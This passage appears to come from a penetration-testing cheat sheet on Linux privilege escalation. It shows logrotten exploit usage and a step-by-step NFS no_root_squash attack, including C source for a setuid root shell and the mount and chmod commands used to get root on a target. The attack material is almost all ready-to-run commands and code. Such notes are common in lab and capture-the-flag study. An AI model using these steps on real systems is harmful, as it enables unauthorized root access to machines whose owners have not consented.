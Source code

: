 ```bash
./logrotten -p ./payloadfile /tmp/log/pwnme.log

# compress option
./logrotten -p ./payloadfile -c -s 4 /tmp/log/pwnme.log
```
- Start a listener  connect

-----
# NFS
-----
- Show mount on the target machine
```bash
showmount -e $IP
```
- The target must have `no_root_squash` settings
```bash
cat /etc/exports

# /etc/exports: the access control list for filesystems which may be exported
#		to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/var/nfs/general *(rw,no_root_squash)
/tmp *(rw,no_root_squash)
```

- Assuming `/tmp` is that mounted folder, we can create a shell  file, set uid bit for the file on the PWNBOX and execute it on the TARGET machine
- On the target machine, create a `shell` file
```bash
nano shell.c

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}

# Compile the file
gcc shell.c -o shell

# move the file to /tmp folder
mv shell /tmp
```
- On the PWNBOX, mount the folder
```bash
sudo mount -t nfs $IP:/tmp /mnt

# Shell file will be in /mnt folder on the PWNBOX machine. Setuid for the file
sudo chmod u+s shell
```
- Go back to the TARGET machine and execute the file
```bash
./shell
```
- We should get root.